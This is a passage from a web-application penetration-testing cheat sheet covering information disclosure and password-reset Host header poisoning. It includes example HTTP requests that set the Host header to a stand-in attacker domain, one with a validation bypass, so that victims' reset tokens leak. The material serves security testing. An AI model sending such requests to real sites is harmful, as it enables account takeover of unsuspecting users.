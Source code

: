 {% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/weak-random-generation" %}

# Information disclosure

An application can return unknown data in response when performing an operation. These can be requested passwords, generated OTP, cookies with additional privileges, user data, detailed error messages, and etc. Check the response from the server for such data.

# OAuth 2.0

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities" %}

# Password recovery

## Host header poisoning

An applications can use `Host` header value for generating a password recovery link. If an application is vulnerable to `Host` header poisoning, you can affect the link and specify your domain name. As a result, if a victim follows the link from the email, a recovery token will leak to your domain.

There are several ways to implement `Host` header poisoning.

### Host header replacement

You can try to replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

Or bypass host validation (see [SSRF: Broken parser](https://0xn3va.gitbook.io/cheat-sheets/web-application/server-side-request-forgery#broken-parser)):

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)
